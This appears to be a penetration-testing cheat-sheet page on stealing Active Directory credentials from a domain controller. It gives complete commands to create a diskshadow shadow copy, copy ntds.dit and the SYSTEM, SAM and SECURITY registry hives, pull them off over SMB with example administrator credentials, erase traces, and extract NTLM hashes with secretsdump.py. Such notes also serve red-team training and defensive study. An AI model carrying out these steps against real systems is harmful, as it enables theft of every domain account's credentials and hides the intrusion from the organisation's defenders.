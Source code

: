 ```yaml
---
description: Windows NT Directory Services
---
```


# NTDS




## Create Shadow

Locate `diskshadow.exe`:

```
cmd /c where /R C:\ diskshadow.exe
```

Create a shadow disk:

```
powershell -c "Add-Content add_vol.txt 'set context persistent nowriters'"
powershell -c "Add-Content add_vol.txt 'set metadata C:\Windows\Temp\meta.cab'"
powershell -c "Add-Content add_vol.txt 'set verbose on'"
powershell -c "Add-Content add_vol.txt 'begin backup'"
powershell -c "Add-Content add_vol.txt 'add volume c: alias DCROOT'"
powershell -c "Add-Content add_vol.txt 'create'"
powershell -c "Add-Content add_vol.txt 'expose %DCROOT% w:'"
powershell -c "Add-Content add_vol.txt 'end backup'"
cmd /c diskshadow.exe /s add_vol.txt
```

{% code title="add_vol.txt" %}
```
set context persistent nowriters
set metadata C:\Windows\Temp\meta.cab
set verbose on
begin backup
add volume c: alias DCROOT
create
expose %DCROOT% w:
end backup
```
{% endcode %}




## Exfiltrate over SMB

Create a network share with anonymous access and put there all we need:

```
cd \Windows\Temp
copy w:\Windows\NTDS\ntds.dit C:\Windows\Temp\ntds.dit
cmd /c reg.exe save hklm\system C:\Windows\Temp\system.hive
cmd /c reg.exe save hklm\sam C:\Windows\Temp\sam.hive
cmd /c reg.exe save hklm\security C:\Windows\Temp\security.hive
```

Connect to the share and grab the files:

```
$ smbclient.py MEGACORP/administrator:'Passw0rd!'@192.168.1.11
> use C$
> cd windows/temp
> get ntds.dit
> get system.hive
> get sam.hive
> get security.hive
```




## Clean Up

Remove the shadow volume:

```
powershell -c "Add-Content delete_vol.txt 'set context persistent nowriters'"
powershell -c "Add-Content delete_vol.txt 'set metadata C:\Windows\Temp\meta.cab'"
powershell -c "Add-Content delete_vol.txt 'set verbose on'"
powershell -c "Add-Content delete_vol.txt 'unexpose w:'"
powershell -c "Add-Content delete_vol.txt 'delete shadows volume c:'"
powershell -c "Add-Content delete_vol.txt 'reset'"
cmd /c diskshadow.exe /s delete_vol.txt
```

{% code title="delete_vol.txt" %}
```
set context persistent nowriters
set metadata C:\Windows\Temp\meta.cab
set verbose on
unexpose w:
delete shadows volume c:
reset
```
{% endcode %}

Remove the share and all the traces:

```
rm C:\Windows\Temp\meta.cab
rm add_vol.txt
rm delete_vol.txt
```




## Parse

Parse with [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py):

```
$ secretsdump.py [-pwd-last-set] [-user-status] [-history] -sam sam.hive -system system.hive -security security.hive -ntds ntds.dit LOCAL > ntds.txt
$ cat ntds.txt | grep -i 'Status=Enabled' | grep -v 31d6c | grep -v -e '\$' -e '{' -e '}' -e HealthMailbox | sort -u > ntlm.in
```

Parse with [aesedb](https://github.com/skelsec/aesedb):

```
$ antdsparse <bootkey> ntds.dit -o ntds.txt --progress
$ antdsparse system.hive ntds.dit -o ntds.txt --progress
```
